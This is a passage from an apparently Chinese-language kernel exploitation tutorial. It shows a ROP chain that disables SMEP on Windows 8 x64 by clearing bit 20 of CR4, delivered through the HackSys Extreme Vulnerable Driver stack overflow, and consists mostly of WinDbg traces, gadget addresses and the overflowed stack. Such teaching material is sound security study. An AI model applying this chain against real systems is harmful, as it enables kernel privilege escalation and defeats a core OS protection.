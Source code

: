 ```
```



**0x03 bypass SMEP ROP chain**

在Win8 x64 Medium Integrity下，可以用NtQueryInformation直接获得bypass SMEP的ROP chain。首先可以得到nt的kernel address，通过NTQuerySystemInformation。



```
kd&gt; p
Bypass_SMEP!GetKernelBase+0x8b:
0033:00007ff7`0075108b 33d2            xor     edx,edx
kd&gt; r rbx
rbx=fffff801dc403000
```

这个nt kernel address就是fffff801dc403000，我们接下来构造的ROP chain可以在nt中找到。关于SMEP的控制，取决于cr4寄存器，这个寄存器的比特位们代表了不同的内容。其中，第20位表示的是SMEP的开关。我们可以利用ROP Chain来关闭这个比特位。因此我们需要2个ROP gadgets。



```
fffff801`dc54fa10 nt!HvlEndSystemInterrupt = &lt;no type information&gt;   506f8   909090909090    +14CA30
0033:fffff801`dc54fa30 59              pop     rcx
0033:fffff801`dc54fa31 c3              ret
fffff801`dc5ddba8 nt!KeWakeProcessor = &lt;no type information&gt; 1506f8    +1DABFC
0033:fffff801`dc5ddbfc 0f22e1          mov     cr4,rcx
0033:fffff801`dc5ddbff c3              ret
```

第一个用于将想修改的cr4的值，交给rcx，第二个用于修改cr4寄存器的值。获取win8下cr4的值，其中，第20bit描述的是SMEP，将其置0关闭SMEP。



```
kd&gt; bc 0
kd&gt; g
Breakpoint 1 hit
HEVD!TriggerStackOverflow+0x11c://驱动返回位置
fffff800`02280bfc c3              ret
kd&gt; r rsp
rsp=ffffd0002381e7c8
kd&gt; dd ffffd0002381e7c8//由于栈溢出，返回地址被覆盖，先是ROP Chain
ffffd000`2381e7c8  dc54fa30 fffff801 000506f8 00000000
ffffd000`2381e7d8  dc5ddbfc fffff801 00a60000 00000000
ffffd000`2381e7e8  90909090 90909090 90909090 90909090
ffffd000`2381e7f8  90909090 90909090 dc54fa30 fffff801
ffffd000`2381e808  001506f8 00000000 dc5ddbfc fffff801
ffffd000`2381e818  02281f6e fffff800 0231d010 ffffe000
ffffd000`2381e828  0231d0e0 ffffe000 03c3aa80 ffffe000
ffffd000`2381e838  0000000e 00000000 00222003 00000000
kd&gt; p//进入第一个ROP gadget  pop rcx获取要修改cr4的值
nt+0x14ca30:
fffff801`dc54fa30 59              pop     rcx
kd&gt; p
nt+0x14ca31:
fffff801`dc54fa31 c3              ret
kd&gt; p//将rcx交给cr4，修改cr4的值
nt+0x1dabfc:
fffff801`dc5ddbfc 0f22e1          mov     cr4,rcx
kd&gt; r cr4//cr4当前值，20bit位置值为1
cr4=00000000001506f8
kd&gt; p
nt+0x1dabff:
fffff801`dc5ddbff c3              ret
kd&gt; r cr4//修改后，20bit位置值为0
cr4=00000000000506f8
```